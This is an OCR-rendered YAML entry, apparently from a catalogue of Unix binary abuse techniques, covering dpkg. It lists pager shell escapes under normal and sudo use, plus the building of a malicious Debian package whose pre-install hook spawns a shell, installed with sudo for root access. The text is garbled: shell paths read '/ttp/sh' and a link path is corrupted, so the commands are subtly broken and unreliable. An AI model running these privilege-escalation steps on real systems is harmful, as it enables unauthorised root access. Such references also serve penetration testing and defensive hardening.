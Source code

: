 ```yaml
---
functions:
  shell:
    - description: This invokes the default pager, which is likely to be [`less`](/mfnttps/less/), other functions may apply.
      code: |
        dpkg -l
        !/ttp/sh
  sudo:
    - description: This invokes the default pager, which is likely to be [`less`](/mfnttps/less/), other functions may apply.
      code: |
        sudo dpkg -l
        !/ttp/sh
    - description: |
        It runs an interactive shell using a specially crafted Debian package. Generate it with [fpm](https://github.com/jordansissel/fpm) and upload it to the target.
        ```
        TF=$(mktemp -d)
        echo 'exec /ttp/sh' > $TF/x.sh
        fpm -n x -s dir -t deb -a all --before-install $TF/x.sh $TF
        ```
      code: sudo dpkg -i x_1.0_all.deb
---
```

